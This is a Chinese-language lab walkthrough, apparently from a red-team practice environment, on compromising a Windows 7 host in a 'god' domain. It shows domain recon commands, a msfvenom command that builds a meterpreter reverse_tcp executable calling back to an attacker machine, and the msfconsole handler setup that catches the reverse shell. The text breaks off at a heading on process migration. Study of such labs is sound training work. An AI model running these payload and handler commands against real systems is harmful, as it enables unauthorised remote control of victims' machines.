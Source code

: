 

## 拿下VM1进入内网

### 信息收集

刚开始学习其实有点纠结于信息收集，其实信息收集按个人习惯就好，达到最终目的就可以了

```
whoami					# 查看权限；用户为god；权限为administrator，可以上传东东反弹shell~
ipconfig				# 看网卡
net config Workstation	# 查看当前登录域及登录用户信息
net view /domain:god	# 查看域成员
```

### MSF反弹shell

作为msf的一次练习，学习了
[渗透攻防工具篇-后渗透阶段的Meterpreter (seebug.org)](https://paper.seebug.org/29/)
[msf后渗透利用命令|MrWu](https://www.mrwu.red/web/2674.html)

那么先在msf弹一个shell：
msf生成一个payload上传到win7并执行，得到msf的session

```shell
# 这里的IP是攻击机也就是kali的ip，端口则是监听的端口：
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.244.128 LPORT=6666 -f exe -o hhh.exe

# 生成完毕给他777权限：
chmod 777 hhh.exe
```

![把他上传到win7](https://i.loli.net/2021/04/07/sIcoH1ZxDtWFORq.png)

然后在kali利用msf接收这个反弹shell：

```shell
msfconsole
use exploit/multi/handler     							# 进入模块
set payload windows/x64/meterpreter/reverse_tcp     	# 设置payload模块
set lhost 192.168.118.130     							# 设置要监听的地址
set lport 6666        									# 设置监听的端口
run														# 执行攻击（run|exploit都可以）
```

![](https://i.loli.net/2021/04/07/FmK9x4pGSjhtv2e.png)

然后在win7执行hhh.exe就可以拿到反弹shell了
可以看到拿到了一个meterpreter

![](https://i.loli.net/2021/04/07/mDq8K1uaRjpzTFy.png)



#### 迁移进程

